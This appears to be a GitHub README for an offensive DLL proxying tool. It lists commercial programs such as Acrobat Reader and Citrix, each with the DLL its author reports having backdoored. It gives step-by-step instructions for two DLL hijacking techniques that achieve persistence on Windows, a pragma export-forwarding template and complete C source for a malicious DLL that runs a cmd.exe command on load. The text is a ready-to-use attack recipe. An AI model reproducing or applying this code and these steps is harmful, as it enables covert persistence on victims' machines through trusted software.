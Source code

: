 # DLL Proxying
This README file will cover two techniques to perform DLL Proxying.

[This article](https://www.ired.team/offensive-security/persistence/dll-proxying-for-persistence) gives more details about the concept of DLL Proxying.

## List of successfully backdoored programs (so far)

Program Name | DLL | Requires admin rights
-------------| ---------------------------
Lightshot | DXGIODScreenshot.dll | Yes
Acrobat Reader | BIB.dll | Yes
Hamachi Service | LMIGuardianDll.dll | Yes
ManyCam | P7x32.dll | Yes
Citrix | ctxmui.dll | Yes

## DLL Proxying & Persistence concept
The goal is to use programs that automatically run on startup.

There are two techniques, generally if the first one fails you will want to try the other one.

The two common steps for both techniques are :
1. Find the program that fits your needs for persistence
2. List DLLs used by this program (with Procmon)

### **Technique 1**

Technique 1 is based on the idea that the DLL exists, and is loaded by the program. 

In Procmon, you can check this with the **Result** column being set to **SUCCESS**.

3. Once you picked your working DLL, use a tool such as DLLExportViewer to export the legit DLL's functions 

(or use my script to automate this step and step 4)

4. Write the pragma comment linkers from the exported functions for you to implement into your malicious DLL

It should look like :

```C
#pragma comment(linker,"/export:FUNCTION_NAME=DLLFileName_orig.FUNCTION_NAME,@ORDINAL")
```

5. Create your DLL with the code that you want to execute, here's an example :

```C
#pragma once

// Add the generated comments here
// # pragma comment(linker,"/export:FUNCTION_NAME=DLLFileName_orig.FUNCTION_NAME,@ORDINAL")
// .....
#include <windows.h>

DWORD WINAPI payload() {
	STARTUPINFOA info = { 0 };

	PROCESS_INFORMATION processInfo = { 0 };

	LPSTR arguments = (char*)" /c notepad"; // This is not necessary. It's just an argument example for you to use with your own commands

	if (CreateProcessA("C:\\Windows\\System32\\cmd.exe", arguments, NULL, NULL, TRUE, 0, NULL, NULL, &info, &processInfo)) {
		WaitForSingleObject(processInfo.hProcess, INFINITE);
		CloseHandle(processInfo.hProcess);
		CloseHandle(processInfo.hThread);
	}
	return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
	switch (fdwReason) {
	case DLL_PROCESS_ATTACH:
		payload();
		break;
	case DLL_THREAD_ATTACH:
		break;
	case DLL_THREAD_DETACH:
		break;
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```

6. Name your DLL with the original legitimate DLL name (without the \_orig), and place it in the same folder.
7. Start the program and see if it worked.

### **Technique 2**

Technique 2 is based on the idea that the DLL doesn't exist where the program calls it. 

In Procmon, you can check this with the **Result** column being set to **NAME NOT FOUND**.

Using Procmon, you should also check if the **Path** column matches with the location of the installation folder of the program

3. Look for the DLL inside the System32 folder
4. Generate the pragma comment linkers from that DLL, but this time for the function name, specify entire path like such :

```C
#pragma comment(linker,"/export:FUNCTION_NAME=C:\\Windows\\System32\\FILENAME.dll.FUNCTION_NAME,@ORDINAL")
```
In my script you can use the `--system32` option to do it automatically.

6. Add the generated comments to your malicious DLL and build it
7. Place the DLL within the folder specified by the **Path** column on Procmon (where the DLL wasn't found)
8. Be sure names match (case sensitive)
9. Start the program and see if it worked

## Consequences

Now everytime the program is going to run, assuming you have chosen a correct DLL and that your own DLL is working, it is going to call your malicious DLL, and will continue to owrk since your DLL exports all the same functions that the legit DLL exports.

Since it is a program that is ran on startup, your DLL will be called on startup and persistence is achieved.


### Troubleshoot
There are two main problems that can occur with this technique:
1. The program didn't start properly or crashed
2. The program started but nothing happened

For both case, it means that you picked the wrong DLL, and that you have to try with another one.
